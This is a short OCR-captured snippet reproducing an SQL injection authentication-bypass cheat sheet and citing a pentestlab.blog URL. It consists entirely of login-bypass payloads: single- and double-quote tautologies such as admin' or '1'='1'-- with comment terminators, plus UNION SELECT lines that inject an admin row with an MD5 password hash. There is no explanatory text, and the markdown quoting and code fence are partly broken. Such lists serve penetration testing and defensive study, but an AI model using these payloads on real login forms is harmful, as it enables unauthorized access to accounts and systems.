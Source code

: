 https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

>```sql 
>or 1=1
or 1=1--  
or 1=1#  
or 1=1/*  
admin' --  
admin' #  
admin'/*  
admin' or '1'='1  
admin' or '1'='1'--  
admin' or '1'='1'#  
admin' or '1'='1'/*  
admin'or 1=1 or ''='  
admin' or 1=1  
admin' or 1=1--  
admin' or 1=1#  
admin' or 1=1/*  
admin') or ('1'='1  
admin') or ('1'='1'--  
admin') or ('1'='1'#  
admin') or ('1'='1'/*  
admin') or '1'='1  
admin') or '1'='1'--  
admin') or '1'='1'#  
admin') or '1'='1'/*  
>
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055  
>
admin" --  
admin" #  
admin"/*  
admin" or "1"="1  
admin" or "1"="1"--  
admin" or "1"="1"#  
admin" or "1"="1"/*  
admin"or 1=1 or ""="  
admin" or 1=1  
admin" or 1=1--  
admin" or 1=1#  
admin" or 1=1/*  
admin") or ("1"="1  
admin") or ("1"="1"--  
admin") or ("1"="1"#  
admin") or ("1"="1"/*  
admin") or "1"="1  
admin") or "1"="1"--  
admin") or "1"="1"#  
admin") or "1"="1"/* 
>
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
>
>````
